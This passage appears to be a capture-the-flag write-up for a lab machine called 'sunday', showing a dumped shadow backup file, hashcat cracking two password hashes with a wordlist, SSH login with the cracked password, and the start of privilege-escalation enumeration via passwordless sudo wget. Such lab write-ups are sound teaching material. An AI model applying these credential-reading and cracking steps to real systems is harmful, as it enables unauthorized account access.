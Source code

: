     sunny@sunday:/backup$ cat shadow.backup
    mysql:NP:::::::
    openldap:*LK*:::::::
    webservd:*LK*:::::::
    postgres:NP:::::::
    svctag:*LK*:6445::::::
    nobody:*LK*:6445::::::
    noaccess:*LK*:6445::::::
    nobody4:*LK*:6445::::::
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
    

### Break with hashcat

Pulling back shadow.backup and the passwd file, and after using unshadow to
create an unshadow file, john or hashcat can break both hashes. Here’s what
the hashcat output looks like (with status messages cleaned out):

    
    
    $ hashcat -m 7400 sunday.hashes /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday
    $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
    ...[snip]...
    

### User Shell - SSH as sammy / user.txt

Armed with sammy’s password, it is now possible to ssh in as sammy:

    
    
    root@kali# ssh -p 22022 sammy@10.10.10.76
    Password:
    Last login: Sat May  5 20:06:34 2018 from 10.10.14.112
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    sammy@sunday:~$
    

sammy has access to user.txt:

    
    
    sammy@sunday:~$ wc -c Desktop/user.txt
    33 Desktop/user.txt
    
    sammy@sunday:~$ cat Desktop/user.txt
    a3d94980...
    

## Privesc: sammy to root

### Enumeration

In enumerating as sammy, I see that sammy can sudo wget without password
(either in [LinEnum.sh](https://github.com/rebootuser/LinEnum) output or from
checking `sudo -l`).
